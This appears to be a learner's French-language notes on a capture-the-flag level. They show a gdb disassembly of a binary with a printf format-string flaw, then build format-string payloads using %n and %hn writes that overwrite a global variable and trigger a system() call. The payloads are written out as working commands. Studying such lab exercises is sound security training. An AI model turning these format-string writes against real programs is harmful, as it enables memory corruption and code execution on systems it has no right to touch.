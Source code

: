 (gdb) disas n
Dump of assembler code for function n:
   0x08048457 <+0>:     push   %ebp
   0x08048458 <+1>:     mov    %esp,%ebp
   0x0804845a <+3>:     sub    $0x218,%esp
   0x08048460 <+9>:     mov    0x8049804,%eax
   0x08048465 <+14>:    mov    %eax,0x8(%esp)
   0x08048469 <+18>:    movl   $0x200,0x4(%esp)
   0x08048471 <+26>:    lea    -0x208(%ebp),%eax
   0x08048477 <+32>:    mov    %eax,(%esp)
   0x0804847a <+35>:    call   0x8048350 <fgets@plt>
   0x0804847f <+40>:    lea    -0x208(%ebp),%eax
   0x08048485 <+46>:    mov    %eax,(%esp)
   0x08048488 <+49>:    call   0x8048444 <p>
   0x0804848d <+54>:    mov    0x8049810,%eax
   0x08048492 <+59>:    cmp    $0x1025544,%eax
   0x08048497 <+64>:    jne    0x80484a5 <n+78>
   0x08048499 <+66>:    movl   $0x8048590,(%esp)
   0x080484a0 <+73>:    call   0x8048360 <system@plt>
   0x080484a5 <+78>:    leave  
   0x080484a6 <+79>:    ret    

   Dump of assembler code for function p:
   0x08048444 <+0>:     push   %ebp
   0x08048445 <+1>:     mov    %esp,%ebp
   0x08048447 <+3>:     sub    $0x18,%esp
   0x0804844a <+6>:     mov    0x8(%ebp),%eax
   0x0804844d <+9>:     mov    %eax,(%esp)
   0x08048450 <+12>:    call   0x8048340 <printf@plt>
   0x08048455 <+17>:    leave  
   0x08048456 <+18>:    ret    

Dump of assembler code for function main:
   0x080484a7 <+0>:     push   %ebp
   0x080484a8 <+1>:     mov    %esp,%ebp
   0x080484aa <+3>:     and    $0xfffffff0,%esp
   0x080484ad <+6>:     call   0x8048457 <n>
   0x080484b2 <+11>:    leave  
   0x080484b3 <+12>:    ret  

b *n+59

Encore un exploit printf ? 

Modifier le retour de printf n'a pas l'air d'etre la solution car il y a un return system dans n()
Peut etre modifier les valeurs de la stack frame d'avant p() ?

stack modifier dans p() a 0xbffff520
Saved eip de p : 0x804848d

Donc la valeur a l'adresse 0x8049810 est mise dans eax
Ensuite il y a une cmp entre eax et la valeur immediate $0x1025544

On va devoir modifier la valeur a l'adresse 0x8049810
Sachant que la valeur est ~16 millions, peu de chance qu'on puisse ecrire 16m de char pour renvoyer la valeur ecrite par printf
Il va falloir trouver une autre solution

Ecrire avec cette notation : %XXXXd. Cela génère un entier de taille XXXX.
0x0102 5544 == d16930116

r < <(python -c "print '\x10\x98\x04\x08' + '%16930116c' + '%14$n'")

Ecrire en plusieurs parties avec %hn ? (write short 2 bytes)
Écrire 0x5544 à l'adresse 0x8049810
Écrire 0x0102 à l'adresse 0x8049812

r < <(python -c 'print "\x12\x98\x04\x08" + "\x10\x98\x04\x08" + "%250d" + "%12$hn" + "%21570d" + "%13$hn"')

(python -c 'print "\x10\x98\x04\x08" + "%16930112d" + "%12$n"' ; cat) | ./level4


(python -c 'print "\x12\x98\x04\x08" + "\x10\x98\x04\x08" + "%250d" + "%12$hn" + "%21570d" + "%13$hn"'; cat) | ./level4

